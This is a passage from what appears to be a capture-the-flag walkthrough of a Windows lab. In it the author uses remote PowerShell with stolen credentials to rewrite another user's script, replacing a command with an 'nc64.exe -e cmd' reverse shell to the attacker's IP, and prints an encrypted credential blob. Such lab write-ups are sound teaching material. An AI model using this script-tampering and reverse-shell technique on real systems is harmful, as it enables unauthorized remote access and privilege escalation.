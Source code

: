 ```
    + FullyQualifiedErrorId : CommandNotFoundException                                              
    + PSComputerName        : ATSSERVER
                       
You cannot call a method on a null-valued expression.
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
    + PSComputerName        : ATSSERVER

```

Because `ConvertTo-SecureString` isn’t defined in this profile, I can’t run it. It is interesting to note that I was able to run it from within a script.

#### Modify Script

I’ve got access to `Get-Content` (`cat`) and `Set-Content` (`sc`), so I can relatively easily create a new script. I could have it call `r.exe` again (since I’m executing on the same box I’m already on), but I don’t want to drop out of my PowerShell session to start a new listener. I’ll upload `nc64.exe` to `C:\utils` and have the script call that:

```

PS C:\Utils> Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc64.exe -e cmd 10.10.14.6 443') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

```

Now the script creates a reverse shell to me:

```

PS C:\Utils> Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {C:\utils\nc64.exe -e cmd 10.10.14.6 443} -ComputerName Acute-PC01 -Credential $creds

```

I’ll start `nc` and run it:

```

PS C:\Utils> Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

```
